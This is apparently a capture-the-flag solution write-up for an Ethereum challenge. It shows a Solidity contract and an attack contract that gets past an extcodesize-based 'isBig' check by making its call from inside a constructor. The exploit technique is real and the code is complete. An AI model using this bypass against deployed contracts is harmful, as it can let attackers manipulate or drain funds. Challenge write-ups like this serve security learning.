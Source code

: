 # YouOnlyHaveOneChance - Solution

**Author**: AtlanticBase

**Category**: Ethereum

The gist of this is to bypass the `isBig` function. In order to bypass it you will have to create all your attacks in the constructor. When the constructor is run, the contract size is technically 0 bytes.

```javascript
contract YouOnlyHaveOneChance {
    uint256 public balanceAmount;
    address public owner;
    uint256 randNonce = 0;

    constructor() {
        owner = msg.sender;

        balanceAmount =
            uint256(
                keccak256(
                    abi.encodePacked(block.timestamp, msg.sender, randNonce)
                )
            ) %
            1337;
    }

    function isBig(address _account) public view returns (bool) {
        uint256 size;
        assembly {
            size := extcodesize(_account)
        }
        return size > 0;
    }

    function increaseBalance(uint256 _amount) public {
        require(tx.origin != msg.sender);
        require(!isBig(msg.sender), "No Big Objects Allowed.");
        balanceAmount += _amount;
    }

    function isSolved() public view returns (bool) {
        return balanceAmount == 1337;
    }
}

contract YouOnlyHaveOneChanceAttack {

  YouOnlyHaveOneChance public youOnlyHaveOneChance;

    constructor() {
        youOnlyHaveOneChance = YouOnlyHaveOneChance("[Address of YouOnlyHaveOneChance]");
        youOnlyHaveOneChance.increaseBalance(1337 - youOnlyHaveOneChance.balanceAmount());
    }
}


```
